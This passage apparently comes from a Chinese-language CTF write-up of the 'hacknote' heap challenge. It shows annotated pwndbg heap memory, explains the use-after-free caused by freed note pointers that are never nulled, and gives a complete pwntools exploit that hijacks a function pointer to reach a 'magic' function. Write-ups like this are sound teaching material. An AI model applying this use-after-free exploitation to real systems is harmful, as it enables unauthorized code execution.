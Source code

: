 ```
unsortedbin
all: 0x0
smallbins
empty
largebins
empty

pwndbg> x /16wx 0x804b000
0x804b000:	0x00000000	0x00000011	0x08048986//这个地址就是magic地址	0x0804b00a//之前留下来的脏数据
0x804b010:	0x00000000	0x00000019	0x00000000	0x0000000a
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000011
0x804b030:	0x0804865b	0x0804b008//指向note2_content_ptr  	0x00000000	0x00000019
```

第四步：输出原来的note0

```python
print_note(0)
```

因为在之前释放note0和note1的时候没有将notelist中的note_struct_ptr设置为NULL(0)，故notelist还保存就指针，在输出note0的时候会调用\*notelist\[0\](\*notelist[0]),即调用magic函数

##### 完整exp

```python
# -*- coding:utf-8 -*-
from pwn import *

context(os='linux',arch='i386')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
p = process('./hacknote')
# gdb.attach(p)
def add_note(size,content):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Note size :')
    p.sendline(str(size))
    p.recvuntil('Content :')
    p.sendline(content)

def del_note(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(idx))

def print_note(idx):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(idx))

magic_addr = 0x08048986

add_note(16,'aaaa') #note0
add_note(16,'bbbb') #note1

del_note(0)
del_note(1)

add_note(8, p32(magic_addr))#note2
print_note(0)

p.interactive()
```